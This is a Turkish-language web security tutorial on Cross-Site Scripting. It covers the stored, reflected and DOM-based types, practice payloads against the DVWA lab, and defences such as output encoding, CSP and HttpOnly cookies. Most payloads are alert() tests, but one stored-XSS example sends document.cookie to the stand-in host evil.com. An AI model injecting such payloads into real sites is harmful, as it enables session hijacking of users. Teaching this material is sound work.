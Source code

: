 ### 3. Adım: Cross-Site Scripting (XSS) – Tarayıcının Zaaflarını Kullanmak

Web güvenliğinde sıkça karşılaşılan açıkların bir diğeri de **Cross-Site Scripting (XSS)**. Bu açık, saldırganların bir web uygulamasına zararlı JavaScript kodlarını enjekte ederek diğer kullanıcıların tarayıcılarını manipüle etmesine dayanır. Bu durum hem kullanıcıyı hem de uygulamanın itibarını ciddi şekilde tehdit eder.

Hadi XSS’i anlamaya ve sömürmeye başlayalım. 👾

---

### 3.1 XSS Nedir?

XSS, temelde bir güvenlik açığıdır ve bir saldırganın uygulamanın istemci tarafında (tarayıcıda) zararlı komutlar çalıştırmasına olanak tanır. Örneğin, bir yorum kutusuna aşağıdaki gibi bir kod yazılırsa:

```html
<script>alert('XSS Açığı!');</script>
```

Bu kod, diğer kullanıcıların tarayıcısında çalışabilir ve onların oturum bilgileri, çerezleri veya diğer hassas verilerini çalmaya olanak sağlar.

---

### 3.2 XSS Türleri

XSS’i daha iyi anlamak için türlerine bakalım:

#### **1. Stored XSS (Depolanmış XSS)**
Zararlı kod, kalıcı olarak veritabanında saklanır ve her seferinde diğer kullanıcılara gönderilir. Örneğin:

- Bir yorum sistemine şu kod yazılır:
    ```html
    <script>document.location='http://evil.com?cookie='+document.cookie;</script>
    ```
- Diğer kullanıcılar bu yorumu görüntülediğinde tarayıcıları zararlı koda maruz kalır.

#### **2. Reflected XSS (Yansıyan XSS)**
Zararlı kod, uygulamadan hemen geri döner ve genelde URL’de taşınır. Örnek:

```html
http://example.com/search?q=<script>alert('XSS')</script>
```

Kullanıcı bu linke tıkladığında kod tarayıcıda çalışır.

#### **3. DOM-Based XSS**
Bu türde, saldırı doğrudan tarayıcıda çalışır ve veriler DOM manipülasyonu ile enjekte edilir. Örneğin:

```javascript
document.write(location.hash);
```

URL şu şekilde olursa:

```html
http://example.com/#<script>alert('XSS')</script>
```

Kod tarayıcıda çalışır.

---

### 3.3 Pratik: XSS Açıklarını Anlamak ve Denemek

#### **Adım 1: Stored XSS Testi**
DVWA’da XSS seviyesini **Low** olarak ayarla ve yorum kutusuna şu kodu yaz:

```html
<script>alert('Stored XSS Testi!');</script>
```

- Bu kod kaydedilir ve her görüntülendiğinde bir `alert` penceresi açılır.
- Şimdi, XSS’in nasıl çalıştığını gözlemle.

#### **Adım 2: Reflected XSS Testi**
DVWA’daki bir arama formuna şu kodu gir:

```html
<script>alert('Reflected XSS Testi!');</script>
```

- Kod tarayıcıya geri döndüğünde çalışır. Bu, XSS’in yansıyan formudur.

#### **Adım 3: DOM-Based XSS Testi**
Bir form veya giriş alanında `document.write` kullanan bir işlev varsa şu kodu deneyebilirsin:

```html
#<script>alert('DOM XSS Testi!');</script>
```

- Eğer DOM manipülasyonu düzgün şekilde filtrelenmediyse, tarayıcı bu kodu çalıştırır.

---

### 3.4 XSS’e Karşı Savunma Teknikleri

XSS açıklarını önlemek için şu yöntemleri kullanabilirsin:

#### **1. Output Encoding**
Kullanıcının verdiği veriyi tarayıcıda işlenmeden önce güvenli hale getir. Örneğin, `"<script>"` gibi bir girdi şu şekilde encode edilmelidir:

```html
&lt;script&gt;
```

#### **2. Input Validation**
Form girdilerini kontrol et ve yalnızca beklenen veri türlerini kabul et.

#### **3. Content Security Policy (CSP)**
CSP, tarayıcıya hangi kaynakların çalıştırılmasına izin verileceğini söyler. Örneğin:

```http
Content-Security-Policy: script-src 'self';
```

Bu politika, yalnızca aynı alan adından gelen script’lere izin verir.

#### **4. HttpOnly Çerezler**
Çerezlerin JavaScript tarafından erişilmesini engelle:

```http
Set-Cookie: sessionid=abc123; HttpOnly;
```

---

### 3.5 XSS Açıklarından Ders Çıkarmak

XSS, küçük bir açık gibi görünse de saldırganlara büyük bir güç verir. Saldırganlar, oturum çerezlerini çalarak kullanıcının oturumunu ele geçirebilir, kimlik avı saldırıları yapabilir veya zararlı içerikler yayabilir.

Pratik yaparken şunu unutma:  
Her zaman bir saldırganın gözünden bak, ancak öğrendiğin teknikleri yalnızca etik ve eğitim amaçlı kullan.

---

### 3.6 Kapanış

XSS, hem anlaması hem de sömürmesi kolay bir açık. Bu nedenle sıkça karşımıza çıkar. Bug bounty avcısı olmak isteyen biri için XSS açıklarını tespit edip raporlamak büyük bir fırsattır. Bir sonraki adımda, **Broken Authentication** konusuna odaklanabiliriz. Hazırsan devam edelim! 😊
